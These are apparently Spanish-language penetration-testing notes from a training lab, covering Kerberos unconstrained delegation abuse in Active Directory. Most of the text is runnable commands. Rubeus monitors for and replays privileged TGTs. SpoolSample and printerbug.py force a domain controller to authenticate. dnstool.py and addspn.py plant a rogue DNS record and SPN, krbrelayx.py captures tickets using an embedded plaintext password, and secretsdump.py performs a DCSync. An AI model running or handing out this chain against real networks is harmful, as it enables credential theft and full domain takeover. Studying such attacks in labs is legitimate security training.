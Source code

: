 # Sobre computadoras

## Esperando la autenticación de un usuario privilegiado

Si logramos comprometer un servidor que tiene habilitada la Unconstrained delegation, y posteriormente un administrador de dominio inicia sesión, podremos extraer su TGT y usarlo para movernos lateralmente y comprometer otras máquinas, incluidos los controladores de dominio.

Rubeus es la herramienta ideal para este ataque. Como administrador local, Rubeus puede ejecutarse para supervisar los tickets almacenados. Si se encuentra un TGT en un ticket TGS, Rubeus nos lo mostrará.

### 1)Monitoreo de tickets
Ponemos a Rubeus en modo monitoreo esperando que los usuarios se conecten al servidor.

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Usamos el ticket para pediro otro ticket con otro servicio


    .\Rubeus.exe asktgs /ticket:<ticket> /service:<servicio>/dc01.INLANEFREIGHT.local /ptt

Si esto no funciona:

    .\Rubeus.exe renew /ticket:<ticket> /ptt

Ahora podemos aprovechar este ticket para realizar acciones en el dc01 como el usuario privilegiado.

## Aprovechando el error de impresora


Es muy similar a la anterior, simplemente que aprovechamos una falla en el MS-RPRN (Print system remote protocol) que puede obligar a un servidor a autenticarse frente a otro


Para esto utilizaremos la herramienta: **SpoolSample**:

    https://github.com/leechristensen/SpoolSample

### 1) Ponemos el rubeus en modo monitor:

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Corremos SpoolSample

    .\SpoolSample.exe <target> <our_server>

### 3) Conseguimos el ticket y continuamos con el ataque anterior.

Si el ticket es del DC, una vez importado, lo renovamos y con mimikatz podemos realizar un DCSync ;)



# Sobre los usuarios

En el caso de los usuarios, necesitaremos tener control del user y permisos de **GenericWrite**, **WriteSPN** o **WriteProperty** sobre el atributo **ServicePrincipalName**.

El ataque consiste en crear un servicio a nombre del usuario con Unconstrained Delegations para que este herede dichos privilegios, de esta manera, los usuarios o computadoras que  se conecnten a este servicio entregarán su ticket.

### 1) Creamos un DNS Falso

En la máquina atacante creamos un DNS falso:

    python dnstool.py -u dominio\\usuario -p contraseña -r roguecomputer.inlanefreight.local -d 10.10.14.2 --action add <ip-dc>
### Agregamos un SPN falso al usuario vulnerable para que comparta un servicio en el DNS falso

De esta manera el servicio heredará sus privilegios de delegación

    python addspn.py -u dominio\\usuario -p contraseña --target-type samname -t sqldev -s CIFS/roguecomputer.inlanefreight.local dc01.inlanefreight.local

### 3) Ponemos a capturar los tickets

    python krbrelayx.py -s callum.dixon -p C@lluMDIXON

### 4) Forzamos al DC o a otro user a autenticarse contra el DNS falso

    python3 printerbug.py dominio/usuario:contraseña@IP_DC roguecomputer.inlanefreight.local
### 5) Con el ticket del DC hacemos DCSync

    export KRB5CCNAME=./DC01\$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
    secretsdump.py -k -no-pass dominio/DC01$
